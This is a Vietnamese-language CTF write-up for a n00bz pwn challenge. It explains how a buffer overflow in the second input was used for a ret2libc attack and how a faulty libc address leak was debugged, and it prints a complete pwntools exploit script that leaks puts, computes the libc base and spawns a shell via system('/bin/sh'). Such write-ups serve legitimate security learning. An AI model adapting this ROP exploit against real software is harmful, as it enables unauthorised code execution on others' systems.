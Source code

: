 # RET2LIBC

**ida:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/5d5ecf94-e55c-409c-88f2-59bb9529ec07)


**checksec và vm:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/e83b1fdb-601d-4d60-9d75-981e224566da)


**got:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/09ccbe9d-2299-4de8-bb3b-47ade86792fc)


check các gadget thì chỉ có **pop rdi, pie đóng** nên ta nghĩ ngay đến cách làm **ret2libc** 

**đọc ida thì ta thấy ở lần nhập đầu không có lỗi gì hết nên ta nhập đại 16byte rồi bỏ qua, nhưng tại lần nhập 2 thì có lỗi BOF, nên ta sẽ dựa vào đây  để khai thác địa chỉ libc**

bài này khá giống task3 bên training nên mình dùng lại code để làm luôn(có note lại chi tiết trong ảnh )


![image](https://github.com/gookoosss/CTF.-/assets/128712571/31d28471-221f-4a09-972d-fc944b25c6d4)



tới đây ta chạy thử xem sao:


![image](https://github.com/gookoosss/CTF.-/assets/128712571/5fe1eb00-5cb1-4b8f-9c11-6862375a5e24)


hmm lỗi rồi nè

**chạy lại lần nữa thì thấy địa chỉ ta leak ra ko đúng với của libc, nên chương trình ko trỏ được đúng đến địa chỉ của system và /bin/sh trong libc**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/50ca8120-254f-4785-bc24-a7d7d725a6d1)


![image](https://github.com/gookoosss/CTF.-/assets/128712571/3f981233-e270-4b7c-a23d-f26d00790f52)


như ảnh thì ta thấy địa chỉ leak vs libc rất khác nhau , nên ta có thể đoán được khả năng cao là do ta đã leak nhầm 1 dữ liệu nào đó  mà chương trình in ra 

giờ ta kiểm tra xem dữ liệu ta leak ra là gì 


![image](https://github.com/gookoosss/CTF.-/assets/128712571/372394f1-61a2-47aa-af44-9e7e9320be05)


oke đến đây hiểu vấn đề rồi 

```
libc_leak = u64(p.recv(6) + b'\0\0')
```

tại đây **p.recv(6)** nhận sai dữ liệu tại hàm puts trả về, để fix lỗi này ta cần đùng **p.recvuntil()** để trỏ đến dữ liệu ta cần leak ra

để ý ở hàm ret trả về **fake_flag** là **n00bz{f4k3_fl4g}** , nên ta dùng **p.recvuntil(b'n00bz{f4k3_fl4g}')** để leak đúng được địa chỉ libc đằng sau **fake_flag**

**script:**

```
from pwn import *

# p = remote('challs.n00bzunit3d.xyz', 61223)
p = process('./pwn2_patched')
exe = ELF('./pwn2_patched')
libc = ELF('libc.so.6')

pop_rdi = 0x0000000000401196
ret_addr = 0x000000000040101a

p.sendline(b'a'*16) # lần nhập 1 ko có lỗi 

payload = b'a'*40 #offset
payload += p64(pop_rdi) + p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])

p.sendline(payload) # gửi payload vào lần nhập 2

p.recvuntil(b'n00bz{f4k3_fl4g}')
libc_leak = u64(p.recv(6) + b'\0\0') #lấy địa chỉ leak ra 
libc.address = libc_leak - libc.sym['puts']
log.info("libc leak: " + hex(libc_leak))
log.info("libc base: " + hex(libc.address))

gdb.attach(p, gdbscript = '''
b*main+138
c
''')
input()

p.sendline(b'a'*16)

payload = b'a'*40
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(ret_addr)
payload += p64(libc.sym['system'])
# payload += p64(gadget)

p.sendline(payload)

p.interactive()
```

chạy thử lại xem sao:

![image](https://github.com/gookoosss/CTF.-/assets/128712571/55ea56dc-aa7a-42a4-a16d-e051e0efc9bd)


![image](https://github.com/gookoosss/CTF.-/assets/128712571/2f9a1e86-5311-403b-b475-9286a1749ba5)


lúc này địa chỉ ta leak ra giống vs địa chỉ base libc nên ta đã làm đúng rồi 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/022f597e-532a-415c-9cd1-93d18cfc6e0c)


đúng rồi nè hehe

**flag:**

***n00bz{3xpl01tw1th0u7w1n5uc355ful!}***

